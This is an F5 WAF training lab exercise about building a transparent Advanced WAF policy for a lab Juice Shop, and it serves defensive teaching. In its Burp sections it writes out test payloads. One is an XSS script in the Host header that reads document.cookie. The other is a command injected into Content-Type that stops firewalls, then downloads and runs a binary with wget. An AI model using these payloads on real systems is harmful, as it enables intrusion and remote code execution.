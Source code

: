 Exercise 4.1: Transparent Policy 
----------------------------------------

Objective
~~~~~~~~~~
We created a transparent policy way back in Lab 1 to configure Geolocation enforcement & Layer 7 XFF inspection for IPI. We then tested out the Threat Campaign signatures in Lab 3 and now we will explore and test some of the other components that should be in scope for enforcement early on in your WAF deployment. 


- Review Learning & Blocking & Policy Building Process settings
- Implement HTTP Protocol Compliancy checks and test
- Test with a HTTP Protocol violation plus XSS attack
- Enable Server Technologies & Attack Signatures
- Review Reporting

- Estimated time for completion **30** **minutes**.

Learning & Blocking 
~~~~~~~~~~~~~~~~~~~~~
Recall from Lab 1, that we used the Rapid Deployment Policy template to create our policy and we deployed it in manual learning mode. This means as violations and/or false positives occur, the system will make suggestions to modify the policy. The admin will manually evaluate the suggestions and Approve, Ignore or Delete them.  

#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** and notice that there are no "learning suggestions" displayed yet. So far, all of our site traffic has been generated by a malicious script so now it's time to generate some real user traffic. 
#. In the Chrome browser open a new tab, click on the **OWASP Juiceshop** bookmark in the Bookmarks Toolbar and accept the certificate warning. Browse around the site and perform several actions as a real user would. 
#. In the top right of the site, click the **Account Menu** and select **Login** and then click **Not yet a customer?**. 

.. image:: images/customer.png
  :width: 600 px

4. Create an account using "f5student@f5agility.com" for email and use the same password you've been using for the labs and pick whatever security question you like. 
#. Click **Register** and then login to the Juice Shop.
#. Click back on the Advanced WAF GUI tab in your browser and refresh the traffic learning screen. If you navigated away or closed the tab, open a new one, login to Advanced WAF and go to: **Security > Application Security >  Policy Building > Traffic Learning**.
#. You will see many Suggestions and a **learning score** that the system assigns based on how many times it has seen an occurence and from what source. You can **Accept**, **Delete**, **Ignore** or **Export** the suggestion. 

.. NOTE:: This is where it usually starts to get a little dicey for a first-time WAF admin. Always look very carefully at the suggested action before deciding on which action to take. It is also helpful to define a whitelist so that the policy can learn quicker and from known trusted sources. You generally do not want the system learning from random and/or hostile Internet traffic and making suggestions to relax the policy.   

8. Notice that most of the learning suggestions involve enabling various HTTP protocol Compliance Checks.   
#. Find and select the suggestion for **Enable HTTP protocol compliance check - HTTP Check: No Host header in HTTP/1.1 request**. 
#. Review the **Suggested Action** and click **Accept** and **Apply Policy**. 

.. image:: images/proto.png
  :width: 600 px

11. What just happened and how do you see what changed by who and when? Audit Log of course!
#. Go to **Security > Application Security >  Audit > Log** and review the most recent actions. You can see who, what and when every component within a policy was modified. (This step is not necessary but meant to draw your attention to the audit log)

.. image:: images/audit.png
  :width: 600 px


13. Click on the Element Name (blue hyperlink) **No Host header in HTTP/1.1 request** This takes you to the Learning and Blocking Settings screen where the check was enabled. 
#. Notice that by default in the Rapid Deployment Policy, learning is enabled for most of the common HTTP Protocol compliancy checks. Also notice that the **Enable** checkbox next to **No Host header in HTTP/1.1 request** is now checked.  

.. image:: images/http_req.png
  :width: 600 px


15. Uncheck the **Learn box** for this violation then **Save** and **Apply** policy. 
#. Open a new Terminal and send the following request. This request is being sent without a host header and should now raise a violation in our Event Log rather than a learning suggestion. 

``curl -k -H 'Host:' https://juiceshop.f5agility.com/``


17. Review the Alarmed request in **Security > Event Logs > Application  > Requests**.

.. image:: images/httpviol.png
  :width: 600 px

18. To review, you just took a learning suggestion and accepted it to enable a protocol compliancy check and then you disabled future learning suggestions for this event. Violations are now alarmed in the Event Logs. 
#. Go back to **Security > Application Security > Policy Building > Traffic Learning** You would now typically go through and enable all of the checks that the policy is recommending regarding http protocol compliance and evasion technique detection.

.. NOTE:: Remember that your policy is safely in transparent mode so accepting suggestions and enabling checks will only raise alarms and no blocking actions will occur. This is why it is very important to start off transparently until you fully understand the basics of managing a WAF policy. 


False Positive Remediation 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. In Juice Shop click on any item and **Write a review** and click **Submit**
#. In Advanced WAF navigate to **Security > Event Logs > Application  > Requests** and look for the Sev3 alert for the request going to **rest/product/reviews**.

.. image:: images/sev3.png
  :width: 600 px

3.  Click **Accept** to allow a new method of **Put** in our policy. Click **Apply Policy**. Navigate to **Security > Application Security > Headers > Methods** and you will see our newly added "Allowed Method" of **Put**.

.. image:: images/headmeth.png
  :width: 600 px

4. In a new browser tab, make sure you are logged in to JuiceShop and leave another review for **Apple Juice**. 
#. Review the request in **Security > Event Logs > Application  > Requests**. 

.. image:: images/put.png
  :width: 600 px

.. NOTE:: Put is not a default allowed method in a Rapid Deployment Policy. Working through learning suggestions and false-positives is an essential part of policy development and should occur as early as possible during software development and testing. It IS NOT best-practice to wait until the site is in production before bolting on a WAF policy as an after-thought. 

Policy Building Process
~~~~~~~~~~~~~~~~~~~~~~~~~~~

One thing you can do to greatly increase the integrity of the learning suggestions is, define trusted IP's. You can also tell the system to Only learn from trusted IP's which is a very wise thing to do if you are developing policy on an app that is exposed to untrusted or Internet traffic. 

#. Go to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section at the bottom. Change the view from Basic to Advanced. Here you can see settings that this particular policy is using for learning. Notice that **Trusted IP Addresses List** is empty. 
#. Click the little window/arrow icon next to **Trusted IP Addresses List** is empty.
#. This takes you to: **Security > Application Security > Security Policies > Policies List > juiceshow_waf policy > IP Address Exceptions**. Click **Add**.

.. image:: images/ip_exception.png
  :width: 600 px
 
4. For IP Address: **10.0.0.0** and for Netmask: **255.0.0.0**. Check the box for **Policy Builder trusted IP** and click **Create** and **Apply Policy**.

.. image:: images/ip.png
  :width: 600 px

5. Navigate back to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section. Notice that our newly defined network is now a **Trusted IP**. This will greatly enhance the speed and quality of learning suggestions. 
#. Change the view from Basic to Advanced and review all the fine-grained configurations for the **Policy Building Process**.

.. image:: images/pbp.png
  :width: 600 px

**You now know how to define a trusted ip and configure the policy building process settings**

Burp'ing the App
~~~~~~~~~~~~~~~~
In this section we are going to use the free/community version of an excellent DAST tool; Burp. Unfortunately, the free version does not actually allow DAST but it is still an excellent tool for packet crafting and that's exactly how we are going to use it.

Accept the Remaining Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Go to **Security > Application Security >  Policy Building > Traffic Learning** and select all of the remaining suggestions and click **Accept > Accept suggestions** and then **Apply Policy**. 

.. image:: images/accept.png
  :width: 600 px

HTTP Compliancy Check - Bad Host Header Value
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The **Bad Host Header Value** check is an HTTP Parser Attack and definitely something that should be implemented as part of **Good WAF Security**. It was included in the suggestions you just accepted. 

**Risk:**
If we allow bad host header values they can be used to Fuzz web servers and gather system information. Successful exploitation of this attack could allow for the execution of XSS arbitrary code.

#. Launch **Burp** from the Desktop. **Do Not click multiple times. It takes a few moments to load**. 

.. image:: images/burp.png

**DO NOT update**. 

#. Choose **Temporary Project** and click **Next** and then click **Start Burp**. 
#. Click the **Repeater** tab and paste in the following http request (**Replace password with the password you've been using all along.**) and click **Send**.
#. A popup window will appear to configure the target details. For host use: **10.1.10.145**. For port use: **443**. Check the **Use HTTPS** box. 
#. Click **Send**

|

**XSS in HOST Header**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: BabyYoda
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 38
  Host: <script>alert(document.cookie);</script>

  username=f5student&password=[password]


.. image:: images/burpreq.png
  :width: 600 px

5. Back in Advanced WAF, browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring including HTTP protocol Violations and several XSS signatures.
#. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the staged XSS Attack Signatures that were triggered. 

.. image:: images/xss-out.png
  :width: 600 px



Server Technologies & Attack Signatures
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this final exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known or communicated from the Dev team.

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**. (You may need to expand **Policy Building Settings** in order to see the Attack Signatures.​)
#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. **Generic Detection Signatures (High/Medium Accuracy)**. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**, click **Save** and then click the **New Window Icon** next to Server Technologies. 

.. image:: images/st.png
  :width: 600 px

4. This takes you to: **Security > Application Security > Security Policies > juiceshop_waf > General Settings**. Scroll down to **Advanced Settings > Server Technologies** and click in the box. Search for Linux since we know the server is running Linux. 

.. image:: images/svr_tech.png
  :width: 600 px


The system will display a box describing which new signature sets will be applied. Click **Confirm**. 

.. image:: images/ast.png
  :width: 600 px

**Make sure to Save and Apply Policy.**

5. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** (again, expand **Policy Building Settings** if needed) and notice the new Unix/Linux Server Technology signature sets that were added to the policy. 

.. image:: images/unix.png
  :width: 600 px

6. Click **Change** and review all of the additional Signature Sets that you can add manually add to a policy. Click **Cancel**

Framework Attacks
~~~~~~~~~~~~~~~~~~~

Back in BURP navigate to the repeater tab and adjust the payload to the following and hit **Send**. **Replace password with the password you’ve been using all along**

|

**Framework Attack**

::

  POST https://10.1.10.145/rest/user/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=[password]


#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Select the event, review the violations and click the **2** under Occurrences for the Attack signature detected violation.  
#. Click the little blue **i** and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode. 

.. image:: images/systems.png
  :width: 600 px

We are now alerting on attacks aimed at Server Technologies. 

Review Reporting
~~~~~~~~~~~~~~~~~~
#. Navigate to **Security > Reporting > Application > Charts** and change the View By: to **Ip Intelligence** and review the chart. 
#. Change the chart type from Absolute to **Stacked**
#. Change the View By: to **Client IP Addresses**

.. image:: images/client_ip.png
  :width: 600 px

4. Change the Advanced Filter to: **Top Alarmed URLs**. 
#. Change the Advanced Filter to: **Top attacks in the last day** and View By: to **Client Countries**. 
#. Explore additional charts that you can generate and export. 

.. image:: images/charts.png
  :width: 600 px

7. Navigate to **Security > Overview > Application > Traffic**

.. image:: images/overview.png
  :width: 600 px

8. Go to **Security > Overview > OWASP Compliance** and review the report. As you can see there is still much to do from a best-practices App-Sec perspective. For more information check out our OWASP 111 Lab which covers these categories in detail. 

.. image:: images/owasp.png
  :width: 600 px


**This completes Lab 4**

**Congratulations! It was a long road but you made it though and now have the knowledge to go forth and start testing. Given the Advanced WAF is a proxy, you could build a Virtual Edition F5 locally on your machine and implement a number of test scenarios with no impacts to a production application. Contact your friendly neighborhood F5 Solutions Engineer for more information!! Hope to see you in the 241 Elevated WAF Protection class! Cheers!!!**



